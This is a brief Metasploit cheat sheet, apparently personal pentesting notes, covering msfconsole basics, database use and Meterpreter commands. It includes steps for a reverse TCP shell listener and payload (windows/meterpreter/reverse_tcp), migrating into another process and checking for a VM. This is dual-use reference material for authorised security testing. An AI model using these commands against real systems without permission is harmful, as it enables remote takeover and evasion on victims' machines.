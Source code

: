 # Metasploit Notes

### Basics
----
```console
# Search metasploit's db for exploits
search <keyword>

# Get context-specific variable
get <var>

# Set global variable
setg <var>

# Unset context-specific variable
unset <var>

# store nmap scan in database
db_nmap <options> <host>

# list open services on target
services

# list host info in database
hosts

# list vulns
vulns

# edit exploit source code
edit
```
```meterpreter (windows)
# migrate to another process
migrate <PID>

# check if target is a VM
run post/windows/gather/checkvm

# setup msfvenom reverse shell payload listener
# don't forget to set LHOST and LPORT	
use exploit/multi/handler

# setup windows meterpreter reverse shell
set payload windows/meterpreter/reverse_tcp
run
```

### Project Management
```bash
msfdb init                  # create metasploit database
```
```msfconsole
db_status   # connect to db
workspace   # setup workspace
```

## Meterpreter
`getpid`: get meterpreter shell pid

## Useful Modules
`exploit/multi/handler/reverse_tcp`

